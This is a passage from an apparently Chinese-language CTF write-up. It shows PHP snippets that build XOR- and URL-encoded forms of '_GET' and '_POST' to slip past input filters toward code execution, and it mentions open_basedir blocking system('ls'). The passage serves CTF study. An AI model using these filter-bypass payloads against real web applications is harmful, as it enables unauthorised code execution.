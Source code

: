 ```javascript
        }
    }
    return str_replace("%", "\x", urlencode($aa) . "^" . urlencode($bb) . "\r\n");
}
echo "_GET\r\n";
echo gen("_GET");
echo "_POST\r\n";
echo gen("_POST");
```



exp2:

```javascript
<?php

$str=urldecode('%ff%ff%ff%ff');
$get=urlencode(@_GET^"$str");
echo $get;
//解码回get
echo "\n";
echo urldecode('%A0%B8%BA%AB')^urldecode($str);
```



## 2.2 使用payload：

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/66BB9268638E435498A460F04AB230AEclipboard.png)

直接使用system('ls');并不能造成命令执行，一是没回显，二是开启了open_basedir，禁用了很多遍函数。



2.3. 此时只能使用第二部分：
